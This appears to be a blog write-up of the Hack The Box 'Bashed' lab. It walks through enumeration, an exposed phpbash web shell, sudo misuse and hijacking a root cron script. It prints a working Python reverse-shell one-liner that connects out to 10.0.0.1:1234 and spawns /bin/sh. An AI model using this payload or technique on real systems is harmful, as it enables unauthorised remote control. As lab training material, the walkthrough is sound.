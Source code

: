 ```yaml
---
"title": "Hack The Box - Bashed"
"date": 2019-12-04
"tags": ["linux", "easy", "sudo", "cron"]
"keywords": ["linux", "easy", "sudo", "cron"]
"categories": "HackTheBox OSCP-Like"
"author": "Ghostbyt3"
"description": "We are going to pwn Bashed from Hack The Box."
"featured_image": "/img/htb-bashed/1.png"
"layout": "single"
"showTableOfContents": true
"authorbox": true
"pager": true
"toc": true
"mathjax": true
"sidebar": "right"
"subtitle": "HackTheBox OSCP-Like - Writeup"
---
```



![Untitled](/img/htb-bashed/1.png)

We are going to pwn Bashed from Hack The Box.

Link : [https://www.hackthebox.eu/home/machines/profile/118](https://www.hackthebox.eu/home/machines/profile/118)


Like always begin with our Nmap Scan.

## Nmap Scan Results
```bash
PORT   STATE SERVICE
80/tcp open  http


80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.16 (95%), Linux 3.2 - 4.9 (95%), Linux 3.8 - 3.11 (95%), Linux 4.4 (95%), Linux 3.18 (95%), Linux 4.2 (95%), Linux 4.8 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
```

Only HTTP port is open so we can bruteforce the directories and find any way to the shell.
![Untitled](/img/htb-bashed/2.png)

## Gobuster Results
```bash
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.68
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/12/06 00:27:13 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/css (Status: 301)
/dev (Status: 301)
/fonts (Status: 301)
/images (Status: 301)
/index.html (Status: 200)
/js (Status: 301)
/php (Status: 301)
/server-status (Status: 403)
/uploads (Status: 301)
===============================================================
2019/12/06 00:29:21 Finished
===============================================================
```

While checking the ``/dev`` there is an ``phpbash.php``[br/](br/)
![Untitled](/img/htb-bashed/3.png)

Found 2 users ``arrexel and scriptmanager`` and got user flag too.

## Getting Shell

Now its time to get reverse shell to expore more

![Untitled](/img/htb-bashed/4.png)
Netcat didnt worked so i tried some others and perl works

Reverse Shell Cheatsheet
>http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

Copy and paste the command on the ``phpbash.php`` and listening on my machine [br/](br/)
![Untitled](/img/htb-bashed/5.png)

## Privilege Escalation

Like always I started with ``sudo -l``[br/](br/)
![Untitled](/img/htb-bashed/6.png)

Looks like ``www-data`` can run any commands on the machine with the permission of ``scriptmanager`` without the password.

![Untitled](/img/htb-bashed/7.png)

Now time to get root, I uploaded my Linux Enumeration Script and found some writeable scripts available. 
![Untitled](/img/htb-bashed/8.png)

May be cronjob running on background so I started ``pspy``

>pspy is a command line tool designed to snoop on processes without need for root permissions. It allows you to see commands run by other users, cron jobs, etc. as they execute. Great for enumeration of Linux systems in CTFs. Also great to demonstrate your colleagues why passing secrets as arguments on the command line is a bad idea.

My guess is correct! 

```bash
2019/12/04 07:46:01 CMD: UID=0    PID=2297   | python test.py

2019/12/04 07:46:01 CMD: UID=0    PID=2296   | /bin/sh -c cd /scripts; for f in *.py; do python "$f"; done
```
I edited the script
 
![Untitled](/img/htb-bashed/9.png)

```py
 python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
Started my listener on my machine

![Untitled](/img/htb-bashed/10.png)

I got Root!
